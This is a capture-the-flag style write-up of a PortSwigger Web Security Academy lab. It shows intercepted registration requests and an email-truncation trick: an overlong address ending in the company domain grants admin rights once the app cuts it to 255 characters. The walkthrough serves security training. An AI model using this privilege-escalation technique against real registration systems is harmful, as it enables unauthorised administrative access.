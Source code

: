 # [Lab 4: Inconsistent handling of exceptional input](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)

---

## Description

This lab doesn't adequately validate user input. You can exploit a logic flaw in its account registration process to gain access to administrative functionality. To solve the lab, access the admin panel and delete Carlos.

---

## Solution

Navigate to the registration page. A banner indicates that employees should use their `@dontwannacry.com` email address.

![](images/Pasted%20image%2020210826161007.png)

Register an account with an email address of that domain and intercept the request.

```http
POST /register HTTP/1.1
Host: ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Cookie: session=i56Tk2XKwQOcgJIjdGjgK2PjVDvlKcQX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Referer: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net/register
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

csrf=2Syvqg2wU8bw2Tm0HWt2zFxffuBucGlz&username=tgihf&email=tgihf%40dontwannacry.com&password=blah
```

The response from the application indicates that an account registration link was sent to the specified email address (`tgihf@dontwannacry.com`), which is inaccessible.

It seems that to access the administrative panel, one needs to register an account with the `@dontwannacry.com` email address. The challenge's exploit server gives access to all emails sent to domain `exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net` and any subdomains of that domain. Perhaps the application only ensures the string `dontwannacry.com` is in the email address. If this is the case, then it may be possible to bypass this restriction by regstering an account with `dontwannacry.com` as the subdomain of `exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net`. Attempt to register an account with this email address.

```http
POST /register HTTP/1.1
Host: ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Cookie: session=i56Tk2XKwQOcgJIjdGjgK2PjVDvlKcQX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Referer: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net/register
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

csrf=2Syvqg2wU8bw2Tm0HWt2zFxffuBucGlz&username=tgihf&email=tgihf%40dontwannacry.com.exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net&password=blah
```

This request successfully causes the web application to send an email confirmation link to the email server given by the challenge.

![](images/Pasted%20image%2020210826163519.png)

Follow the link to finish registering the account. Login with the account. Unfortunately, the account doesn't have administrative access.

It seems that the application only allows administrative access to users whose email addresses are of the `dontwannacry` domain. How does the application go about ensuring that the email of the user is a part of this domain? Perhaps it just compares the last 12 characters to the email address to `dontwannacry` and if they are equal, allows the user to have administrative access.

After some trial and error, it becomes clear that the application stores the user-input email address into a limited-size buffer such that if the buffer is overflowed, the application only saves the first N characters as the email address. The buffer size appears to be 255 characters. Thus, by inputting the email address `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadontwannacry.com@exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net`, the application sends the account registration email to the attacker-controlled email address and saves the email address as `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadontwannacry.com`. Logging in with this account grants administrative access. Delete `carlos`'s account to complete the challenge.
